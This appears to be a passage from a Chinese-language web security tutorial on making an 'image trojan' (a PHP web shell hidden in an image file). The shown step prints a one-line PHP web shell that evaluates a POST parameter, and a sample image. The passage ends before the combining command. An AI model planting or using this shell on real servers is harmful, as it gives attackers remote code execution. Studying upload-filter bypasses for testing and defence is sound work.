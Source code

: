
***

## <mark style="color:blue;background-color:green;">（3）生成图片马</mark>

linux下面有指令可以生成图片马，这里介绍一下步骤。

step1：我们准备好木马文件和一张图片（图片尽量小一点）

我这里就准备最简单的一句话木马，然后图片也在这里发一下吧。

1.php

```php
<?php
@eval($_POST['a']);
?>

```

图片（小于1mb，只有471kb）

<figure><img src="../.gitbook/assets/Sunflower_from_Silesia2-min.jpg" alt=""><figcaption></figcaption></figure>

